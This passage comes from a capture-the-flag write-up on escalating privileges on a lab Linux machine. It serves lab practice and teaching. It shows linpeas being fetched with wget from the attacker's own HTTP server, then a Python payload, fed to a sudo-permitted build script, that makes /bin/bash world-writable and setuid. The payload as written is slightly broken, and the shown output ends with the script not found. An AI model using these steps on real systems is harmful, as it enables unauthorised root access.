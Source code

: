Since it won't let us, we are going to use the `linpeas`. We switch linpeas from one machine to another with `python3 -m http.server 80` and `wget http://10.10.14.108:80/linpeas_base.sh`. Then `chmod +x linpeas_base.sh` and finally we execute it: `./linpeas_base.sh`

![linpeas-1](images/linpeas-1.png)

The `linpeas` hasn't reported anything of value to me, so come on, we'll try the `path` reported by `sudo -l` (`/usr/local/sbin/build-installer.sh`) From what I think which is the file, is, a python builder, so we are going to use this simple script:

```
imports
import sys

os.system('chmod 777 /bin/bash')
os.system('chmod u+s /bin/bash')
```

```
sudo /usr/local/sbin/build-installer.sh make exploit.py
```

Output:

```
384 INFO: PyInstaller: 5.6.2
384 INFO: Python: 3.10.6
387 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
388 INFO: wrote /tmp/qreader.spec
392 INFO: UPX is not available.
script '/home/tkeller/exploit.py' not found
```
